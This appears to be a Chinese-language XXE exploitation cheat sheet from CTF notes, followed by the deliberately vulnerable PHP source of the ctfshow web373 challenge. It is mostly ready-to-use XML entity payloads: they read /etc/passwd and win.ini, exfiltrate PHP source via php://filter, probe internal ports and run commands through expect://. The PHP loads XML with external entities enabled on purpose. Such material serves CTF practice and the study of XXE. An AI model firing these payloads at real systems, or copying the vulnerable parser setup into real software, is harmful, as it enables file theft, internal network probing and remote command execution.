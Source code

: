 # 一些利用姿势

以下为有回显

1.读取敏感文件

```xml
<?xml version="1.0"?><!DOCTYPE a [<!ENTITY b SYSTEM "file:///etc/passwd">]><c>&b;</c>
<?xml version="1.0"?><!DOCTYPE a [<!ENTITY b SYSTEM" file:///C:/Windows/win.ini">]><c>&b;</c>
```

2.使用 php 伪协议 php://filter 读取文件

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xdsec [
<!ELEMENT methodname ANY >
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=phpinfo.php" >]>
<methodcall>
<methodname>&xxe;</methodname>
</methodcall>
```

3.扫描内网和端口

通过扫描 ip 和端口确定内网机器的 ip 和端口开发情况，访问端口会获取 baner 信息

```
<?xml version="1.0"?>
<!DOCTYPE ANY [
<!ENTITY test SYSTEM "http://127.0.0.1:80">
]>
<abc>&test;</abc>
```

4.执行命令

若开启 expect 扩展

```
<?xml version="1.0"?>
<!DOCTYPE ANY [
<!ENTITY test SYSTEM "expect://whoami">
]>
<abc>&test;</abc>
```

# ctfshow

## web373

题目

```php
<?php

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    $ctfshow = $creds->ctfshow;
    echo $ctfshow;
}
highlight_file(__FILE__);    
```